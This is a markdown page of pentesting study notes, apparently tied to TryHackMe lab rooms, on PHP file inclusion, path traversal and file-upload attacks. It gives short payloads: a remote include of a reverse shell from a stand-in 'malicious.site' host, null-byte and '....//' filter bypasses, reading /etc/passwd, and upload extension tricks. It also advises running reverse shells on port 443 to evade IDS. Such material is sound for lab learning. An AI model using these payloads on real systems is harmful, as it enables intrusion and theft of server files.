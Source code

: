 # Files/Paths exploits

> It advised to not use potential vulnerable forms to send data, as the data effectively send might not be what you entered.<br>
> Use tools such as [BurpSuite](/cyber/exploitation/web/burpsuite/index.md), or `curl`.

<hr class="sep-both">

## File inclusion

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "lang/$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.cgi%00.php" // include xxx.cgi
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (avatar.png)
// as your avatar, then
include "lang/../uploads/avatar.png.php"
```

See Path traversal.

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Path/directory traversal

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd`/`windows/win.ini`
* ...

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.
</div><div>

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.

**Bypass filters**: if you know that a filter will replace a string, then you may create a string that will do what you want AFTER being filtered, such as `....//`. If the filter is removing `../`, then after filtering `..` and `/` will be concatenated, giving us back `../`.

If there are client-side filtering, you may use [BurpSuite](/cyber/exploitation/web/burpsuite/index.md), or `curl`

```bash
$ curl URL/vulnerable.php -d 'file=/etc/flag1' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sep-both">

## File upload

<div class="row row-cols-md-2"><div>

A hacker could try to upload a script, and then find a way to run it. The script usually open a **reverse shell**, meaning a shell on the target, that can be access from the hacker computer.

**Bypass filters**

* Try `xxx.png.php` to bypass stupid filters
* Try the null byte `xxx.php%00.png` <small>(PHP < 5.3.4)</small>
* Try intercepting the request, changing the content type, if the server is only checking the content-type.

> Do not use public/folders available to the user, if it's not needed. If you still do, do not use common names that could be found with forced browsing.
</div><div>

**Reverse shell**

To avoid alerting IDS, the reverse shell should use a port that would not be suspected such as `443` (HTTPS).
</div></div>